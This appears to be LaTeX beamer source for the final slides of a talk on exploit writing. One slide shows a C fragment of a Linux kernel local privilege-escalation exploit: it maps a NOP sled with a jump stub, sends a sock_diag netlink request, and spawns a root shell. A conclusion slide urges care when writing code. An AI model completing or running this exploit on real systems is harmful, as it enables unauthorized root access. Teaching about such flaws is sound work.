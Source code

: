 \documentclass[xcolor=dvipsnames]{beamer}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Running Root Shell}

\begin{lstlisting}
  unsigned long mmap_start, mmap_size;
  mmap_start = 0x0000000100000000;
  mmap_size = 0x2000000;

  if (mmap((void *)mmap_start, mmap_size, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS, -1, 0) == MAP_FAILED)
    return 1;

  const unsigned long jump_sz = __jump_end - __jump;
  memset((void *)mmap_start, 0x90, mmap_size); /* 0x90 is 'nop' */
  memcpy((void *)mmap_start + mmap_size - jump_sz, __jump, jump_sz);

  if ((fd = socket(AF_NETLINK, SOCK_RAW, NETLINK_SOCK_DIAG)) < 0)
    return 1;

  if (send(fd, &req, sizeof(req), 0) < 0)
    return 1;
\end{lstlisting}
\begin{lstlisting}[backgroundcolor=\color{mygray}]
  if(!getuid())
    system("/bin/sh");
\end{lstlisting}
\begin{lstlisting}
  return 0;
}
\end{lstlisting}

\end{frame}

\section{Conclusion}

\begin{frame}
  \frametitle{Conclusion}

  \begin{itemize}
    \item Writing exploits is easy sometimes
    \item Be aware when writing code
  \end{itemize}

\end{frame}
\end{document}
